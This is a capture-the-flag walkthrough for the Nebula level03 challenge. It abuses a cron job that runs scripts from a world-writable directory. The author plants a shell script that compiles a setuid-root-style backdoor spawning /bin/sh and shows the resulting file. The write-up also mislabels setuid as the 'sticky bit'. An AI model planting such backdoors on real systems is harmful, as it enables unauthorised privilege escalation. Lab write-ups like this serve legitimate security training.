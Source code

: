 # About
Check the home directory of flag03 and take note of the files there.

There is a crontab that is called every couple of minutes.

To do this level, log in as the level03 account with the password level03. Files for this level can be found in /home/flag03.

# Exploitation
```bash
level03@nebula:/home/flag03$ ls -l
total 1
drwxrwxrwx 2 flag03 flag03  3 2012-08-18 05:24 writable.d
-rwxr-xr-x 1 flag03 flag03 98 2011-11-20 21:22 writable.sh
```
There is 1 folder and 1 script, Let's look at `writable.sh`
```bash
level03@nebula:/tmp$ cat /home/flag03/writable.sh
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```
This shell script executes `.sh` files in `writable.d`.

So I will give a script to get backdoor file, the script is:
```bash
#!/bin/sh
rm /home/flag03/back*
echo 'int main(void) { setreuid(geteuid(), geteuid()); system("/bin/sh"); }' > /home/flag03/backdoor.c;
gcc -o /home/flag03/backdoor /home/flag03/backdoor.c
chmod 4777 /home/flag03/backdoor
```
This script makes `backdoor.c` file and compile it, and gives permission with sticky bit.

Copy that script to `writable.d` and wait for a minute. The file disappeared and directory became:
```bash
level03@nebula:/tmp$ ls -l /home/flag03/
total 13
-rwsrwxrwx 1 flag03 flag03 7243 2017-12-05 14:00 backdoor
-rw-rw-r-- 1 flag03 flag03   70 2017-12-05 14:00 backdoor.c
drwxrwxrwx 1 flag03 flag03   40 2017-12-05 14:00 writable.d
-rwxr-xr-x 1 flag03 flag03   98 2011-11-20 21:22 writable.sh
```

